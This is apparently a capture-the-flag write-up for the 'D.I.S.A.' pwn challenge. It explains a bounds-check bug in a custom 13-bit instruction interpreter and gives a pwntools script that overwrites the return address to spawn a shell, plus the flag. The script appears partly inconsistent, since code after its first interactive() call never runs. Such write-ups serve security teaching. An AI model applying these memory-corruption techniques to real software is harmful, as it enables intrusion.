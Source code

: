 # pwn/D.I.S.A.

### Description

disa is the panicle of high performance and innovative design. 13bit is the future, everything else is pure cope. Embrace the performance and safety of disa

Co-authored by: auska

nc challs.pwnoh.io 13430

File: [disa.zip](./disa.zip)

### Solve

Glancing through the source for this challenge, it's an implementation of a custom instruction set. It operates on a grid of `int16_t` numbers, but the vulnerability was clear very quickly. We can go to arbitrary locations using `JMP`. Here's a demo of the vulnerability:

```
└─$ ./disa
D.I.S.A. (Dumb Instruction Set Architecture) Interpreter
Send your .nut program:
PUT -12
RD
-12
JMP
LD
RD
25393
```

Since we haven't written anything, we shouldn't be able to read out of bounds like that. I thought it was just negative at first, then I realized the max and min they set in `disa.h` were based on 13 bits and the integers we were working with were 16 bits. That means I could load up a number, jump to a positive number outside the range (like the return address), and edit it to return to win. I also needed to set the value to 0, but I also could just skip past that instruction and jump right to the shell, which I did lol.

The only problem was PIE. Luckily, the lower 3 nibbles are consistent no matter what, so I just subtracted based off the offset of the existing return address and the address I wanted to jump to in `win()`.

Solve code:

```py
from pwn import *

# initialize the binary and set the context (architecture, etc.)
binary = "./disa" # ensure it is executable (chmod +x)
elf = context.binary = ELF(binary, checksec=False)

gs = """
break main
continue
"""

# run with python3 solve.py REMOTE
if args.REMOTE:
    p = remote("challs.pwnoh.io", 13430)

# run with python3 solve.py GDB
elif args.GDB:
    context.terminal = ["tmux", "splitw", "-h"]

    p = gdb.debug(binary, gdbscript=gs)

# run with python3 solve.py
else:
    p = elf.process()


### START HERE ###

# offset of 16424, which is 8212 uint16_t's
p.sendline(b'PUT 2053')
for i in range(4):
    p.sendline(b'ADD')
p.sendline(b'LD')
p.sendline(b'RD')
p.sendline(b'JMP')
p.sendline(b'LD')
p.sendline(b'RD')
p.interactive()
# get there and subtract some 765 from the return address
p.sendline(b'PUT -765')
p.sendline(b'ADD')

p.sendline(b'END')

p.interactive()

# you do have to ctrl+C after you have interactive, but then you have a shell
```

Flag: `bctf{w417_4c7u411y_13_b17_c0mpu73r5_fuck1n9_5uck}`